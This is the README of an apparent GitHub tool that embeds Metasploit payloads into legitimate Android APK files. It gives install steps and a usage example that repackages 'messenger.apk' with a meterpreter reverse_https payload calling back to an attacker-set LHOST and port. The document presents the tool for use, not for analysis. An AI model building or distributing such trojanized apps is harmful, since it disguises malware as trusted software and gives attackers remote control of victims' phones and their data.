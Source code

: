 # metasploit-apk-embed-payload
Embed a Metasploit Payload in an Original .Apk File
<br />
> I choose a lazy person to do a hard job. Because a lazy person will find an easy way to do it.
 
  — [Bill Gates](http://www.goodreads.com/quotes/568877-i-choose-a-lazy-person-to-do-a-hard-job)
 
**This script is a POC for injecting metasploit payloads on arbitrary APKs and Result of [How to Embed a Metasploit Payload in an Original .Apk File](http://null-byte.wonderhowto.com/how-to/embed-metasploit-payload-original-apk-file-0166901/) Lesson**
**Authored by timwr, Jack64 , Updated by [xC0d3rZ](https://xc0d3rz.github.io/whoaim)**
###Installation
```bash
 gem install colorize
``` 
###Requirements 
 
 1. Ruby (**> 1.8.7**).
 2. Android SDK(*** For injection ***)
 
###Warring 
Don't edit or remove **embed_tools** folder.
Don't remove or edit **tmp/*** folder until script finish Embedding 
###Usage
```bash
apk-embed-payload.rb [target.apk] [msfvenom options]
```
<br>
e.g
```bash
apk-embed-payload.rb messenger.apk -p android/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=8443
```

